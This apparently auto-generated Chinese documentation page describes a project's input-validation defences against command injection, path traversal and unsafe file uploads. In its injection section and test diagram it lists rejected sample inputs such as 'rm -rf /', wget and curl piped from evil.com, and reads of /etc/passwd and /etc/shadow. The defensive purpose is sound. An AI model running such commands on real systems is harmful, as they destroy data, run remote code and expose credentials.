


# 安全输入验证

<cite>
**本文档引用的文件**
- [test_security.py](file://test/unit/test_security.py)
- [app.py](file://rdagent/log/server/app.py)
- [CLAUDE.md](file://CLAUDE.md)
</cite>

## 目录
1. [简介](#简介)
2. [安全输入验证机制](#安全输入验证机制)
3. [文件上传安全验证](#文件上传安全验证)
4. [命令注入防护](#命令注入防护)
5. [路径遍历防护](#路径遍历防护)
6. [安全测试验证](#安全测试验证)
7. [安全配置与策略](#安全配置与策略)

## 简介
本项目实施了全面的安全输入验证机制，旨在防止各种常见的安全威胁，包括命令注入、路径遍历和恶意文件上传等。系统通过多层次的验证策略确保输入数据的安全性，保护系统免受潜在攻击。

## 安全输入验证机制
系统实现了严格的安全输入验证机制，通过`validate_input`函数对用户输入进行检查，防止危险命令的执行。该机制能够识别并阻止各种潜在的恶意输入。

**Section sources**
- [test_security.py](file://test/unit/test_security.py#L1-L116)

## 文件上传安全验证
在文件上传过程中，系统实施了多重安全验证措施：

1. **文件名清理**：使用`secure_filename`函数清理文件名，防止特殊字符注入
2. **文件类型验证**：严格限制上传文件类型，仅允许特定扩展名
3. **路径规范化**：使用`resolve()`方法规范化目标路径，防止路径遍历攻击
4. **路径范围检查**：通过`os.path.commonpath`确保目标路径在允许的基目录范围内



**Diagram sources**
- [app.py](file://rdagent/log/server/app.py#L119-L133)

**Section sources**
- [app.py](file://rdagent/log/server/app.py#L119-L133)

## 命令注入防护
系统通过`validate_input`函数有效防护命令注入攻击，能够识别并阻止以下类型的恶意命令：

- **分号注入**：如`; rm -rf /`
- **逻辑与注入**：如`&& wget http://evil.com/shell.sh`
- **逻辑或注入**：如`|| curl http://evil.com/malware.sh | sh`
- **反引号命令替换**：如`` `cat /etc/passwd` ``
- **美元符号命令替换**：如`$(cat /etc/passwd)`

```mermaid
graph TD
A[用户输入命令] --> B[检查危险模式]
B --> C{包含分号?}
C --> |是| D[拒绝输入]
C --> |否| E{包含&&或||?}
E --> |是| D
E --> |否| F{包含反引号或$()?}
F --> |是| D
F --> |否| G{包含危险命令?}
G --> |是| D
G --> |否| H[接受输入]
```

**Diagram sources**
- [test_security.py](file://test/unit/test_security.py#L73-L86)

**Section sources**
- [test_security.py](file://test/unit/test_security.py#L73-L86)

## 路径遍历防护
系统能够有效检测和阻止路径遍历攻击，防止攻击者通过相对路径访问系统敏感文件：

- **相对路径检测**：识别`../../../etc/passwd`等模式
- **重复点检测**：识别`....`等异常路径模式
- **绝对路径检查**：防止通过绝对路径访问系统文件



**Diagram sources**
- [test_security.py](file://test/unit/test_security.py#L58-L70)

**Section sources**
- [test_security.py](file://test/unit/test_security.py#L58-L70)

## 安全测试验证
项目包含全面的安全测试用例，验证各种安全防护机制的有效性：

```mermaid
graph TD
A[安全测试] --> B[危险命令测试]
A --> C[带参数危险命令测试]
A --> D[管道命令测试]
A --> E[路径遍历测试]
A --> F[命令注入测试]
A --> G[合法命令测试]
B --> H["rm -rf /", "sudo rm -rf /", "dd if=/dev/zero of=/dev/sda1"]
C --> I["rm -rf /some/path", "chmod 777 /etc/passwd"]
D --> J["cat /etc/passwd | grep root", "ls /tmp | wc -l"]
E --> K["../../../etc/passwd", "../../etc/shadow"]
F --> L["; rm -rf /", "&& wget http://evil.com/shell.sh"]
G --> M["ls -la", "python script.py", "git status"]
```

**Diagram sources**
- [test_security.py](file://test/unit/test_security.py#L11-L116)

**Section sources**
- [test_security.py](file://test/unit/test_security.py#L11-L116)

## 安全配置与策略
系统实施了多层次的安全配置和策略，确保整体安全性：

```mermaid
graph TD
A[安全策略] --> B[依赖安全检查]
A --> C[代码安全分析]
A --> D[访问控制]
A --> E[数据加密]
A --> F[合规性管理]
B --> G["pip-audit", "snyk test", "dependency-check"]
C --> H["Bandit安全检查", "代码扫描"]
D --> I["RBAC权限模型", "API密钥管理"]
E --> J["TLS 1.3", "AES-256", "密钥轮换"]
F --> K["审计日志", "数据分类"]
```

**Diagram sources**
- [CLAUDE.md](file://CLAUDE.md#L507-L635)

**Section sources**
- [CLAUDE.md](file://CLAUDE.md#L507-L635)